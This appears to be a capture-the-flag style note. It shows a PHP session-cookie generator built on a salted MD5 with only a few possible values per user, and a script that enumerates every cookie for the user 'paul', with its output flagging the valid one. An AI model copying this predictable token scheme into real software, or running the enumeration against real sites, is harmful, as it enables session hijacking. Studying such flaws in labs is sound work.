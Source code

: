 # Cookie.php 

```php

<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
```


# New cookie.php

```php
<?php

$username = "paul";
$max = strlen($username) - 1;
for ($seed = 0; $seed <= $max; $seed++){
	$key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    	$session_cookie = $username.md5($key);
    	echo $session_cookie."\n";
}

?>
```


Cookies:

paula2a6a014d3bee04d7df8d5837d62e8c5
paul61ff9d4aaefe6bdf45681678ba89ff9d
paul8c8808867b53c49777fe5559164708c3
paul47200b180ccd6835d25d034eeb6e6390 <--- the one
